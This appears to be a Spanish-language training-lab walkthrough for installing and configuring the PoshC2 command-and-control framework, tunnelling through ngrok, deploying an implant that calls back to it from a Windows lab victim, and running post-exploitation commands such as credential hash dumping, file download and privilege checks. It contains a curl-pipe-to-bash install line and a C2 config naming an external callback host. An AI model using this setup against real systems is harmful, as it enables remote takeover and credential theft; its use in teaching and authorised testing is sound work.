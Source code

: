 ## Lab3: C2 - PoshC2
![image](https://user-images.githubusercontent.com/50930193/180666195-537fb36c-88bf-4926-b0d4-fc18e36b06ab.png)

**Descripción**

El laboratorio tiene por objetivo, establecer un Centro de Comando y Control (C2) basado en PoshC2, ejecutar comandos de obtención de información post explotación 

- Para el desarrollo del laboratorio se requiere que el participante instale el PoshC2 siguiendo las indicaciones o desde la página oficial: https://poshc2.readthedocs.io/en/latest/
- Como víctima, se debe crear una instancia en AWS con sistema operativo Windows7 o Windows Server 2012R2 y estar dentro del dominio RTOOS.NET. **La instancia debe estar conectado a la vpn pública.**


### SOLUCIÓN:

1. **Pre-requisito** (Tener Kali actualizado) si no se podrían presentar errores de dependencias:

   ```
   # Instalación en Kali 
   
   $ sudo apt update && sudo apt -y full-upgrade -y
   ```

2. **Instalación** Instalar PoshC2 en el equipo que ejecuta Kali Linux mediante la siguiente línea de comandos :

   ```
   # Instalación en Kali (disponible desde el 14 de Julio del 2022): 
   $ sudo apt install poshc2
   
   # Instalación de manera local: 
   $ curl -sSL https://raw.githubusercontent.com/nettitude/PoshC2/master/Install.sh | sudo bash

   # Instalación en docker:
   $ apt install docker docker.io
   ```
   
- Instalar las dependiencias y configurar lo necesario para ejecutar el C2
- Cuando todo esté instalado correctamente, confgurar el servidor C2, considerando ngrok como proxy o tunnel 

3. **Configuración** Utilice, los siguientes comandos  para configuración:

    ```
    # Creación de proyectos:
    $ sudo posh-project -n <nombre_proyecto>
    ```
   ![image](https://user-images.githubusercontent.com/50930193/180668548-0af7946d-b92f-48b5-94b7-d00e3c7d65fc.png)
   
   ```
    # Configuración:
    $ sudo posh-config # se abrirá en el editor por defecto (vim en su mayoria)
    ```
    Dentro de la configuración se cambiaran 2 parametros generalmente:
    ```
    BindPort: -> Puerto de escucha en Kali o bien que apunte a ngrok
    
    PayloadCommsHost -> url de tu maquina escucha (ip de tu kali o tu ngrok).

    KillDate -> Fecha max que quieres que dure el beacon.
    ```
    ![image](https://user-images.githubusercontent.com/50930193/180669019-8b67e91d-c694-442d-be1d-ee7a726b4950.png)



- En el parametro PayloadCommsHost se deberá  reemplazar por la url de ngrok
   ```
   # ngrok http 8080
   ```
      
- Para configurar el PoshC2 ejecutar: `posh-config`

  Ejemplo de configuración de PoshC2:

```
  # These options are loaded into the database on first run, changing them after
  # that must be done through commands (such as set-defaultbeacon), or by
  # creating a new project

  # Server Config
  BindIP: '0.0.0.0'
  BindPort: 8080

  # Database Config
  DatabaseType: "SQLite" # or Postgres
  PostgresConnectionString: "dbname='poshc2_project_x' port='5432' user='admin' host='192.168.111.111' password='XXXXXXX'" # Only used if Postgres in use

  # Payload Comms
  PayloadCommsHost: "http://f3a1-2001-1388-70c5-cc21-cd1d-168c-c3ae-7880.ngrok.io" # "https://www.domainfront.com:443,https://www.direct.com"
  DomainFrontHeader: ""  # "axpejfaaec.cloudfront.net,www.direct.com"
  Referrer: ""  # optional
  ServerHeader: "Apache"
  UserAgent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36"  # This should be updated to match the environment, this is Chrome on 2020-03-2

  DefaultSleep: "5s"
  Jitter: 0.20
  KillDate: "2999-12-01"  # yyyy-MM-dd
  UrlConfig: "urls" # Beacon URLs will be taken from resources/urls.txt if value is 'urls'. If value is 'wordlist' beacon URLs will be randomly generated on server creation from resources/wordlist.txt

  # Payload Options
  PayloadStageRetries: true
  PayloadStageRetriesInitialWait: 60 # Stager will retry after this many seconds, doubling the wait each time if it fails
  PayloadStageRetriesLimit: 30 # Stager retry attempts before failing
  DefaultMigrationProcess: "C:\\Windows\\system32\\netsh.exe"  # Used in the PoshXX_migrate.exe payloads
  PayloadDomainCheck: "" # If non-empty then the UserDomain on the target will be checked and if it 'contains' this value then the payload will execute, else it will not.

  # Notifications Options
  NotificationsProjectName: "PoshC2"
  EnableNotifications: "No"

  # Pushover - https://pushover.net/
  Pushover_APIToken: ""
  Pushover_APIUser: ""

  # Slack - https://slack.com/
  Slack_BotToken: "" # The token used by the application to authenticate. Get it from https://[YourSlackName].slack.com/apps/A0F7YS25R (swap out [YourSlackName]). Should start with xobo-.
  Slack_UserID: "" # Found under a users profile (i.e UHEJYT2AA). Can also be "channel". 
  Slack_Channel: "" # i.e #bots

  # SOCKS Proxying Options
  SocksHost: "http://127.0.0.1:49031"

  # PBind Options
  PBindPipeName: "jaccdpqnvbrrxlaf"
  PBindSecret: "mtkn4"

  # FComm Options
  FCommFileName: "C:\\Users\\Public\\Public.ost"
```

- En una ventana de terminal ejecutar el servidor : 
     ```
     posh-server
     ```
     
- En otra ventana o pestaña de terminal ejecute el cliente o Implant Manager : 
     ```
     posh
     ```
     
  Le solicitará colocar un nombre de usuario.


- Para efectos de este laboratorio, el instructor ejecutará un payload que permitirá desplegar un implante que generará una conexión reversa hacia el PoshC2 Server o el participante puede tener acceso al host victima para realizar la transferncia del implante.

- Una alternativa para la transferencia del payload es utilizar un servidor web creado en la carpeta donde se almacenan los implantes (/opt/PoshC2_Project/payloads) :

```
    python -m SimpleHTTPServer 80
```
  	
- De forma ordenada, el participante deberá comunicar al instructor su dirección IP para que él descargue y ejecute el payload desde la maquina victima. De esta forma, recibirá una conexión reversa en su PoshC2 Server y tendrá su primer implante establecido.

- Otra opción es ejecutar el comando de powershell en base 64.

- En el Implant Handler y en la consola del C2 Server se podrá ver la información del implante que se ha conectado y esta disponible.

- Para interactuar con ese implante desde el Implant Handler, seleccionar el implante por su ID (verifique que sea el que corresponda al mismo que apareció en la consola del C2 Server).

- Ejecute algunos o todos los siguientes comandos además del comando help que le permitirá conocer lo que incluye Posch C2 Server por default :

```
    ls
    pwd
    get-implantworkingdirectory
    cd c:\users\xxxx 
    download-file Tropheo.txt
    get-computerinfo
    get-netstat
    get-pid
    ps
    find-allvulns
    invoke-allchecks
    get-MpPreference
    Get-LocalGroupMember Administrators
    get-hash
    loadmodule SeatBealt.ps1
    seatbelt
```
    
- Antes de culminar, vuelva al primer nivel del Implant Manager para obtener información del C2 Server y un reporte de actividades :

```
    back
    show-serverinfo
    generate-reports
```
    


*============FIN DE DOCUMENTO===============*





